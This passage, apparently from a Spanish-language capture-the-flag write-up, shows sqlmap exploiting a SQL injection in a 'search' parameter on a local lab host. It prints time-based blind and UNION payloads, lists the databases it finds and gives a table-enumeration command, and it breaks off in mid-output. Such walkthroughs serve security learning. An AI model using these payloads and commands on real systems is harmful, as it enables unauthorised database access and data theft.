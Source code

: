 ```
Parameter: search (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 8749 FROM (SELECT(SLEEP(5)))qTux) AND 'NVPu'='NVPu

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716a707a71,0x4e4e49566876625a696f78554376434a656f7478576e6b7171427446716c685269424761574a6e4a,0x71716a7671),NULL,NULL-- -
---
[10:31:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:31:54] [INFO] fetching database names
available databases [5]:
[*] apple_store
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[10:31:54] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 26 times
[10:31:54] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 10:31:54 /2025-02-01/
```

Vemos que si lo es y nos muestra las bases de datos que hay, por lo que vamos a ver que tablas contiene la base de datos llamada `apple_store` que es la mas interesante.

```shell
sqlmap -r request.txt --dbs --batch -D apple_store --threads 10 --tables
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.8.11#stable}                                                                                                                    
|_ -| . [(]     | .'| . |                                                                                                                                    
|___|_  [.]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:33:07 /2025-02-01/

[10:33:07] [INFO] parsing HTTP request from 'request.txt'
[10:33:08] [INFO] resuming back-end DBMS 'mysql' 
[10:33:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: time-based blind
```